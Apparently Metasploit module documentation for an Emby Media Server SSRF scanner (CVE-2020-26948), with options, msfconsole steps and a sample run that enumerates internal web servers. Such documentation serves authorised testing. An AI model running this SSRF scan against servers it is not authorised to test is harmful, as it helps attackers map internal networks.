 ## Vulnerable Application
This module has been tested on Emby Media Server versions older than 4.5.

### Description

Generates a `GET` request to the provided web servers and executes an SSRF against the targeted EMBY server.
Returns the server header, HTML title, and location header. This is useful for rapidly identifying web applications
on the internal network using the Emby SSRF vulnerability (CVE-2020-26948).

## Verification Steps

  1. Do: `use auxiliary/scanner/http/emby_ssrf_scanner`
  2. Do: `set rhosts [ips]`
  3. Do: `set emby_server [emby_server_ip]`
  4. Do: `run`

## Options

### PORTS

Select which ports to check for HTTP servers internal to the Emby server. Defaults to `80,8080,8081,8888`.

### EMBY_SERVER

IP address of the Emby server to use. Required.

### EMBY_PORT

Emby server access port. Defaults to 8096.
### SHOW_TITLES

If set to `false`, will not show the titles on the console as they are grabbed. Defaults to `true`.
### STORE_NOTES

If set to `false`, will not store the captured information in notes. Use `notes -t http.title` to view. Defaults to `true`.

## Scenarios

### Emby Server (v4.4.3 on Ubuntu) - Scan Internal 192.168.2.0 Network

```
msf > use auxiliary/scanner/http/emby_ssrf_scanner
msf auxiliary(scanner/http/emby_ssrf_scanner) > set emby_server 10.10.200.32
emby_server => 10.10.200.32
msf auxiliary(scanner/http/emby_ssrf_scanner) > set rhosts 192.168.2.3
rhosts => 192.168.2.3
msf auxiliary(scanner/http/emby_ssrf_scanner) > run

[+] 192.168.2.3:8096 Title: Emby
[+] 192.168.2.3:8096     HTTP Code: 200
[+] 192.168.2.3:8096     Location Header:
[+] 192.168.2.3:8096     Server Header: UPnP/1.0 DLNADOC/1.50
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

